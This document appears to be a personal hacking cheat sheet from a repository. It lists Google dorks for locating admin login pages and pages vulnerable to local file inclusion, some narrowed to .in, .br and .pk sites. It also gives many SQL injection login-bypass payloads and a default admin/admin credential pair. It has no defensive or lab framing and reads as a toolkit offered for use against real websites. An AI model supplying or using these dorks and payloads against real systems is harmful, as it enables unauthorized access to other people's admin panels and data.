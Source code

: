 # ETH

## Dork:
ei duita te beshi kaj hobe.
- inurl: admin/login.php site:.com
- inurl: admin/login.php site:.in
- inurl: admin/login.php
- inurl: admin/index.php
- inurl: admin
- inurl: login.php
- inurl: login.php site:.in

Two
- inurl:adminlogin.aspx
- inurl:admin/index.php
- inurl:administrator.php
- inurl:administrator.asp
- inurl:login.asp
- inurl:login.aspx
- inurl:login.php
- inurl:admin/index.php
- inurl:adminlogin.aspx


## SQL INJECTION
- 1'or'1'='1
- 1'or'1'-'1
- OR 1-1 LIMIT 1 ;# or 1-1 limit 1 --
- admin' or '1'-'1
- 'or 1-1 limit 1--
- 1'or'1'='1
- ' or 1=1#
- or 1=1
- " or ""="
- or 1=1--
- or 1=1#
- or 1=1/*
- admin' --
- admin' #
- admin'/*
- admin' or '1'='1
- admin' or '1'='1'--
- admin' or '1'='1'#
- admin' or '1'='1'/*
- admin'or 1=1 or ''='
- admin' or 1=1
- admin' or 1=1--
- admin' or 1=1#
- admin' or 1=1/*
- admin') or ('1'='1
- admin') or ('1'='1'--
- admin') or ('1'='1'#
- admin') or ('1'='1'/*
- admin') or '1'='1
- admin') or '1'='1'--
- admin') or '1'='1'#
- admin') or '1'='1'/*

- user Name: admin password: admin

## DORKS:
- inurl:adminlogin.aspx
- inurl:admin/index.php
- inurl:administrator.php
- inurl:administrator.asp
- inurl:login.asp
- inurl:login.aspx
- inurl:login.php
- inurl:admin/index.php
- inurl:adminlogin.aspx
- inurl:personalrecords/login.php
- inurl:admin/Uploade
- inurl:admin/Upload
- inurl:creative-admin
- inurl:-admin/login.php
- inurl:*-admin/index.php
- inurl:-admin/admin.php
- intitle:"index" of "admin" site:
- intitle:"index" of "admin" "framework" site:.in
- intitle:"index" of "admin" "pdf" site:
- intitle:"index" of "admin" "gallery" site:
- intitle:"index" of "admin" "image" site:
- intitle:"index" of "admin" "upload" site:
- intitle:"index" of "admin" "banner" site:
- intitle:"index" of "admin" "file" site:
- intitle:"index" of "admin" "page" site:
- intitle:"index" of "admin" "news" site:
- intitle:"index" of "admin" "views" site:
- intitle:"index" of "admin" "include" site:
- intitle:"index" of "admin" "picture" site:
- intitle:"index" of "admin" "photos" site:
- inurl: admin/login.php site:.in

## Admin Pane Finding dork
- site:example.com inurl:login | inurl:signin | intitle:Login | intitle:"sign in" | inurl:auth

## LFI Dork
- allinurl:pgg=contact.php
- allinurl:page=contact.php
- allinurl:home=contact.php
- allinurl:?index.php?pagina=contato.php site:br
- allinurl:?index.php?pagina=clientes.php site:br
- allinurl:?index.php?pagina=produtos.php site:br
- allinurl:?index.php?pagina=contato.php
- index.php?pagina=home.php
- index.php?pagina=empresa.php
- index.php?pagina=obras.php
- index.php?pagina=localizacao.php
- index.php?pagina=contato.php
- thumb.php
- index.php?pagina=empresa.php
- index.php?pagina=produtos.php
- index.php?pagina=representantes.php
- index.php?pagina=contato.php
- index.php?pagina=home.php
- index.php?pagina=guia_consumidor.phpa
- index.php?pagina=responsabilidade.php
- LFI dork collection
- inurl:"?page=news.php"
- inurl:"index.php?main=*php"
- inurl:"index.php?inc=*php"
- inurl:"index.php?pg=*php"
- inurl:"index.php?include_file=*php"
- inurl:"index.php?main=*html"
- inurl:"index.php?inc=*html"
- inurl:"index.php?pg=*html
- inurl:index.php?id=
- inurl:index.php?cat=
- inurl:index.php?action=
- inurl:index.php?content=
- inurl:index.php?page=
- inurl: .php?page=contact.php site:in/pk/id

## PAYLOADS
- 1'or'1'='1
- ' OR 1=1 LIMIT 1 ;#
- ' or 1=1 limit 1 -- -+
- admin' or '1'='1
- 'or 1=1 limit 1-- -+---
